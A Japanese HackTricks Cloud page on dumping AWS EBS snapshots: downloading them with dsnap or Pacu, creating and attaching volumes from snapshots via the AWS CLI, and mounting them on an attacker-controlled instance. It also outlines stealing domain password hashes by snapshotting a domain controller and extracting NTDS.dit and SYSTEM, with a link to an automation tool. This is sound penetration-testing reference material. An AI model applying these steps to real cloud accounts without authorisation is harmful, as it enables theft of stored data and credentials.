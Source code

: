 # AWS - EBS スナップショットダンプ

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有する。

</details>

### ローカルでスナップショットをチェックする
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
この技術についての詳細は、オリジナルの研究をご覧ください [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Pacuを使用して、モジュール [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) でこれを実行できます。

### AWSでスナップショットをチェックする

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**コントロール下にあるEC2 VMにマウントする**（バックアップのコピーと同じリージョン内である必要があります）:

**ステップ 1:** EC2 –> ボリュームに移動し、好みのサイズとタイプの新しいボリュームを作成します。

**ステップ 2:** 作成したボリュームを選択し、右クリックして「ボリュームのアタッチ」オプションを選択します。

**ステップ 3:** 下に示すように、インスタンステキストボックスからインスタンスを選択します。

![](<../../../../.gitbook/assets/image (6) (1) (1).png>)

**ステップ 4:** 今、ec2インスタンスにログインし、以下のコマンドを使用して利用可能なディスクをリストします。
```
lsblk
```
上記のコマンドは、インスタンスにアタッチしたディスクをリストします。

**ステップ 5:**

![](<../../../../.gitbook/assets/image (59).png>)

これはPacuを使用して、モジュール ebs\_\_explore\_snapshots で行うことができます。

### AWSでスナップショットをチェックする（cli使用）

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### シャドウコピー

**`EC2:CreateSnapshot`** 権限を持つ任意のAWSユーザーは、**ドメインコントローラーのスナップショット**を作成し、それを自分たちが制御するインスタンスにマウントし、Impacketのsecretsdumpプロジェクトで使用するために**NTDS.ditとSYSTEM**レジストリハイブファイルを**エクスポートすることで、すべてのドメインユーザーのハッシュを盗むことができます。

このツールを使用して攻撃を自動化できます: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) または、スナップショットを作成した後に前述の技術のいずれかを使用することもできます。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
